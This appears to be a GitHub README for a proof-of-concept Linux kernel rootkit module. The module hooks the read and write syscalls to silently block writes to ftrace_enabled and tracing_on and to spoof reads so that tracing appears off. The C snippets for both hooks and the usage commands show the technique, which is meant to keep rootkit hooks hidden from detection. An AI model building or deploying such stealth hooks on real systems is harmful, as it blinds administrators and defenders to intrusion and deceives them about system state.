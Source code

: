 ## Simple PoC for Silently Blocking All `writes` to `ftrace_enabled` && `tracing_on` as Well as Spoofing the Read from Those Files When Enabled to Appear Off

### Overview
This Linux kernel module ensures that all `write` operations to the files `/proc/sys/kernel/ftrace_enabled` and `/sys/kernel/tracing/tracing_on` are silently blocked. Additionally, the module spoofs the read value of these files to appear as `0` when they are actually enabled (`1`), but only once per read attempt to avoid spamming `0`s.

The goal is to maintain the integrity of the hooks while keeping them hidden from detection or tampering. This is achieved through custom hooks implemented for the `read` and `write` syscalls.

---

### Snippet from `hooks/read.h`

```c
// If the current value is "1" change it to "0" once; avoids repeated spoofing.
if (spoof_next_read == 0 && strncmp(kernel_buf, "1", 1) == 0) {
    kernel_buf[0] = '0';
    spoof_next_read = 1; // Ensure spoof happens only once
} else {
    spoof_next_read = 0; // Reset spoof for subsequent reads
}
```

---

### Snippet from `hooks/write.h`

```c
/* Silently blocks writes to ftrace_enabled and tracing_on using the same 
   method employed in clear-taint-dmesg, but adapted for the write syscall. */

if (strcmp(file->f_path.dentry->d_name.name, "ftrace_enabled") == 0 ||
    strcmp(file->f_path.dentry->d_name.name, "tracing_on") == 0) {
        
    fput(file); // Free the file object after verification

    // Allocate a temporary buffer in kernel space
    kernel_buf = kmalloc(B_F, GFP_KERNEL);
    if (!kernel_buf) {
        return -ENOMEM;
    }

    // Copy data from user space to kernel space buffer
    if (copy_from_user(kernel_buf, user_buf, count)) {
        kfree(kernel_buf);
        return -EFAULT;
    }

    // Check for "1" or "0" and handle appropriately
    if (strncmp(kernel_buf, "1", 1) == 0) {
        // ftrace enabled
    } else if (strncmp(kernel_buf, "0", 1) == 0) {
        // ftrace disabled
    }

    kfree(kernel_buf);
    return count; // Simulate a successful write
}
```

---

### Example Usage

<p align="center"><img src=".img/ftrace.jpg"></p>

```bash
echo 0 > /proc/sys/kernel/ftrace_enabled; echo 0 > /sys/kernel/tracing/tracing_on
# Silently blocked; write does not succeed

cat /proc/sys/kernel/ftrace_enabled; cat /sys/kernel/tracing/tracing_on
# Outputs 0 (even if internally it remains enabled)
```

### Extra 

[![Discord](https://img.shields.io/badge/Discord-%235865F2.svg?&logo=discord&logoColor=white)](discord.gg/66N5ZQppU7)
[![C](https://img.shields.io/badge/C-00599C?logo=c&logoColor=white)]()
[![Linux](https://img.shields.io/badge/Linux-FCC624?logo=linux&logoColor=black)]()
